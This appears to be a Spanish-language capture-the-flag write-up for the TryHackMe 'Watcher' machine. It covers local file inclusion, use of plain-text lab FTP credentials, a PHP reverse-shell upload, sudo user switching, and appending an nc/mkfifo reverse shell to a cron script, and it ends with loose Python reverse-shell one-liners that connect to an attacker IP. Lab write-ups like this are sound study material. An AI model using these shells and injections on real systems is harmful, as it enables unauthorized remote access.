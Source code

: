 ```yaml
---
layout: single
title: Watcherv 1.4
excerpt: "Work your way through the machine and try to find all the flags you can!"
date: 2022-05-27
classes: wide
header:
  teaser: /assets/images/thm-writeup-watcher/watcher_logo.png
  teaser_home_page: true
  icon: /assets/images/thm_ico.png
categories:
  - TryHackMe
  - infosec
tags:
  - Security
  - Linux
  - nmap
  - couchdb
  - Web
  - Privilege escalation
---
```


![logo](/assets/images/thm-writeup-watcher/watcher_logo.png)

[Link](https://tryhackme.com/room/watcher "Watcher")

A boot2root Linux machine utilising web exploits along with some common privilege escalation techniques, Work your way through the machine and try to find all the flags you can!

Made by @rushisec

---

- Flag 1 -> hint: (<https://moz.com/learn/seo/robotstxt>)

Revisando el directorio **robots.txt** encontramos una ruta, que al abrir, encontramos la la bandera correspondiente a este punto:

![flag1](/assets/images/thm-writeup-watcher/watcher_flag1.png)

---

- Flag 2 -> <https://www.netsparker.com/blog/web-security/local-file-inclusion-vulnerability/>

Con la segunda ruta que obtuvimos en el directorio **robots.txt** y con la pista, que nos indica que la página es vulnerable a **lfi**, procedemos con los siguientes pasos:

1.Verificamos la vulnerabilidad con **burpsuite** listando la ruta **/etc/passwd** como se oberva a continuación:

![flag2](/assets/images/thm-writeup-watcher/watcher_flag2_1.png)

2.Con está información, listamos la ruta No. 2 de **robots.txt**, obteniendo un usuario y contraseña **ftp**, como se observa en la siguiente imagen:

![flag2](/assets/images/thm-writeup-watcher/watcher_flag2_2.png)

3.Con el usuario y contraseñas que encontramos en el paso anterior, ingresamos vía **ftp**, listamos los archivos y descargamos la **flag_2.txt** como mostramos a continuación:

![flag2](/assets/images/thm-writeup-watcher/watcher_flag2_3.png)

ftpuser:givemefiles777
---

- Flag 3 -> <https://outpost24.com/blog/from-local-file-inclusion-to-remote-code-execution-part-2>

1.Preparamos una **reverse-shell.php**, descargada de <https://pentestmonkey.net/tools/web-shells/php-reverse-shell> con los datos de la máquina atacante, como observamos a continuación:

![flag3](/assets/images/thm-writeup-watcher/watcher_flag3_1.png)

2.Procedemos a subir nuestra reverse shell al servidor **ftp**, con el comando **put**como lo muestra la siguiente imagen:

![flag3](/assets/images/thm-writeup-watcher/watcher_flag3_2.png)

3.Nos ponemos en escucha por el puerto configurado, en nuestro caso **4444** con el siguiente comando: **nc -nlvp 4444**

4.Ejecutamos la **rshell.php**, con la siguiente ruta <http://watcher.local/post.php?post=/home/ftpuser/ftp/files/php-reverse-rshell.php>, desde burpsuite o desde el navegador:

![flag3](/assets/images/thm-writeup-watcher/watcher_flag3_3.png)

5.Obtenemos la reverse shell y con el comando **SHELL=/bin/bash script -q /dev/null** realizamos el tratamiento de la shell.

6.Con el siguiente comando realizamos la búsqueda de la bandera 3:

~~~go
find / -type f -name flag_3.txt 2>/dev/null
~~~

![flag3](/assets/images/thm-writeup-watcher/watcher_flag3_4.png)

---

- Flag 4 -> <https://www.explainshell.com/explain?cmd=sudo+-l>

- Con el siguiente comando podemos pasar al usuario "toby"

~~~go
sudo -u toby /bin/bash
~~~

- Ya como "toby" obtenemos la bandera:

![flag4](/assets/images/thm-writeup-watcher/watcher_flag4.png)

---

- Flag 5 -> https://book.hacktricks.xyz/linux-unix/privilege-escalation#scheduled-cron-jobs

5.1 Con base en la lista procedemos a consultar los "crontab":

~~~go
cat /etc/crontab
~~~

![flag5](/assets/images/thm-writeup-watcher/watcher_flag5.png)

5.2 Observamos el script "cow.sh", el cual copia una foto entre directorios:

~~~go
toby@watcher:~/jobs$ cat cow.sh
cat cow.sh
#!/bin/bash
cp /home/mat/cow.jpg /tmp/cow.jpg

~~~

5.3 Nos ponemos en escucha con **nc** en el puerto 555
  
~~~go
nc -nlvp 555
~~~

5.4 Inyectamos una reverse shell en el script "cow.sh" con el siguiente comando:

~~~go
echo "rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|sh -i 2>&1|nc 10.9.0.68 5555 >/tmp/f" >> cow.sh
~~~

5.5 Ejecutamos el script:

~~~go
./cow.sh
~~~

5.6 Obtenemos una reverse shell como "mat" y la bandera solicitada:

~~~css
└─# nc -nlvp 5555
listening on [any] 5555 ...
connect to [10.9.0.68] from (UNKNOWN) [10.10.107.245] 40532
sh: 0: can't access tty; job control turned off
$ whoami
mat
$ python3 -c 'import pty; pty.spawn("/bin/bash")'
mat@watcher:~$ ls
ls
cow.jpg  flag_5.txt  note.txt  scripts
cat flag_5.txt
FLAG{????????}
mat@watcher:~$ 
~~~


echo 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.9.0.68",555));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("/bin/bash")' > cmd.py

echo 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.9.0.68",6666));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);subprocess.call(["/bin/sh","-i"])' > cmd.py